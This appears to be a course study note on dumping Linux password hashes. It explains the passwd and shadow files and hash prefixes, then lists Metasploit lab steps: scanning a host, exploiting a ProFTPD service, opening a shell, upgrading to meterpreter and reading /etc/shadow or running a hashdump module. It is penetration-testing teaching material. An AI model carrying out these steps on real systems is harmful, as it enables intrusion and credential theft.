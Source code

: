 # Dumping Linux Password Hashes
### Linux Password Hashes
- information for all accounts on Linux is stored in the passwd file in `/etc/passwd`
- all encrypted passwords for the users are stored in the shadow file `/etc/shadow`
- shadow file can be accessed only by the root account
- hash prefix
	- $1 - MD5 Hashing Algorithm
	- $2 - Blowfish
	- $5 - SHA-256
	- $6 - SHA-512
- Process
	-  `nmap -sV 10.10.10.10`
	-  Search for vulnerable service
	- `searchsploit ProFTPD`
	- `service postgresql start && msfconsole`
	- `setg RHOSTS 10.10.10.10`
	- `search ProFTPD`
	- use the version
	- `set options`
	- `run`
	- `/bin/bash -i`
	- background the session
	- `sessions -u 1` --> upgrade to meterpreter
	- `sessions 2`
	- `cat /etc/shadow`
	- another method
		- `post/linux/gather/hashdump`
		- `run`
	- check the file for the lab in this section of the course for how to use the auxiliary module to crack the password
